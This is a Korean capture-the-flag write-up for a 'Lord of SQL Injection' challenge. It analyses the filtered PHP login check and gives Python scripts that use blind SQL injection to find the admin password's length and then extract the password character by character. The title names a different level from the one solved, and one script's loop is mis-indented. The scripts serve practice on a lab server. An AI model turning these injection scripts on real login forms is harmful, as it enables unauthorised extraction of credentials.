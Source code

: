 ## Lord of SQL Injection No. 8 - troll
## 문제 출제 의도
1. Ascii범위를 벗어난 pw 값을 알아낼 수 있는지 확인한다.
2. pw 길이를 알아 낼 수 있는지 확인한다.
3. MYSQL AutoCasting을 이해하는지 확인한다.
## 소스 코드 분석
+ 소스코드
xavis의 소스코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    + 금지 문자열, 문자
        - Get 방식으로 받은 pw값에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        - Get 방식으로 받은 pw값에 'regex','like'중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    + 문제 풀이 조건
        - 문제 풀이에 성공하는 GET방식으로 pw 값과 실제 id='admin'인 레코드의 pw 가 일치하고 그 값이 0이 아닐경우이다.
## 문제 해결
+ 필요 함수
    - ord
        + ord는 문자의 아스키 코드값을 리턴하는 함수이다
        + (※ ord 함수는 chr 함수와 반대이다.)
        ~~~
        >>> ord('a')
        97
        >>> ord('0')
        48
        ~~~
    - hex
        + hex(x)는 정수값을 입력받아 16진수(hexadecimal)로 변환하여 리턴하는 함수이다.
        ~~~
        >>> hex(234)
        '0xea'
        >>> hex(3)
        '0x3'
        ~~~
+ pw 길이
    - 지금까지와는 다르게 pw가 8이 아님으로 pw 길이를 알아내야 한다.
    - 이는 다음과 같은 코드를 작성하면 쉽게 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    i=1

    while i:
    url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="
    data = "' or id='admin' and length(pw)={}-- -".format(i)
    print (data)
    data = quote(data)

    re = urllib.request.Request(url + data)
    re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
    re.add_header("Cookie", "PHPSESSID=vt2ho6kvcu0hjgehmdmuj37qd1")
    res = urllib.request.urlopen(re)

    if  str(res.read()).find("Hello admin") != -1:
            print(i)
            break
    i+=1
    ~~~
    - 이는 결과적으로 40을 출력함으로 pw 의 길이는 40인것을 알 수 있다.

+ pw 값
    - pw길이만 다른 것을 빼면 지금까지와 별 다를 것이 없는 Blind SQL Injection 이라 할 수 있다.
    - 그러나 코드를 작성하여 풀어도 길이만 일치할 뿐 아무 값도 얻어내지 못한다는 사실을 알 수 있다.
    - 따라서 탐색 범위를 확장하여 다음과 같은 코드를 만들어 해결한다
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    hexcode = "0x"

    for i in range(1,41):
        for j in range(32, 1000):
            url = "http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php?pw="#고정된 부분
            data = "' or id='admin' and ord(substr(pw, {}, 1))='{}'#".format(str(i), str(j))
            print(data)
            data = quote(data)

            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

            response = urllib.request.urlopen(re)

            if str(response.read()).find("Hello admin") != -1:
                key += chr(j) #찾은 문자를 추가함
                hexcode += hex(j)[2:] #0x를 잘라주기 위해 문자열을 슬라이스 했다.
                print('key : ' + key)
                print('hex : ' + hexcode)
                break
    print(key)
    ~~~
    - 이는 결과적으로 ¸ùÅ°ÆÐÄ¡¤»을 출력하는데 10자리 이후에서는 아무것도 탐색되지 않는다.
    - 이를 GET 방식으로 입력하면 문제가 해결된다.